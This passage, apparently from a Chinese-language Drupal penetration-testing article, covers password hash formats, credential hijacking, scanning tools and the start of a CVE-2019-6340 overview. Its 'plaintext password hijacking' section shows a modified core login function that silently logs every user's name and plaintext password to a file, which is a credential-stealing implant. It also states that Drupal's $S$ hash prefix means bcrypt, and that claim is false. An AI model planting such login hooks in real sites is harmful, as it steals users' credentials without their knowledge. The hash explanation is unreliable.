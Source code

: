 **返回密码哈希：**

-   返回加密后的密码哈希值

返回的哈希形式如下： $S$D7RUZRn.5.PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T  
其格式如下：  
$S$：哈希算法标识符，在这种情况下，它指示使用 bcrypt 算法  
D7RUZRn.5：工作因子，指示 bcrypt 应执行多少轮哈希  
PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T：哈希值

## 1.5 登录明文密码劫持

Drupal 登录逻辑中的接收表单数据是使用 drupal form api 完成的，其关键代码位于/includes/form.inc，它提供了一组通用的函数和类用于构建和处理表单。  
表单 API 属于抽象层，我们还是直接劫持业务逻辑层的密码验证函数，关键代码位于/includes/password.inc

```bash
function user_check_password($password, $account) {
    $plaintext = $account->name.$password;
    file_put_contents('/var/log/accesss.log',$plaintext);

    if (substr($account->pass, 0, 2) == 'U$') {
    // This may be an updated password from user_update_7000(). Such hashes
    // have 'U' added as the first character and need an extra md5().
    $stored_hash = substr($account->pass, 1);
    $password = md5($password);
      ...
    }
```

我们只需要劫持$password 和$account 即可得到明文账号密码，需要注意的是$account 变量是一个数组，需要劫持$account->name，具体代码实现参照 wordpress 安全技术研究

# 2.Drupal 渗透测试研究

## 2.1 主流工具

### droopescan

droopescan 是一款使用 python 开发的跨平台 drupal 扫描工具  
[https://github.com/SamJoan/droopescan](https://github.com/SamJoan/droopescan)

## 2.2 getshell 测试案例

Drupal 的 RCE 漏洞还是挺多的，在 exploit-db 能搜索到 40+ 与 RCE 相关的漏洞

### CVE-2019-6340

-   概述

CVE-2019-6340 是 Drupal 8.x 版本中一个远程代码执行 (RCE) 漏洞，影响范围： 
Drupal 8.6.x < 8.6.10  
Drupal 8.5.x < 8.5.11
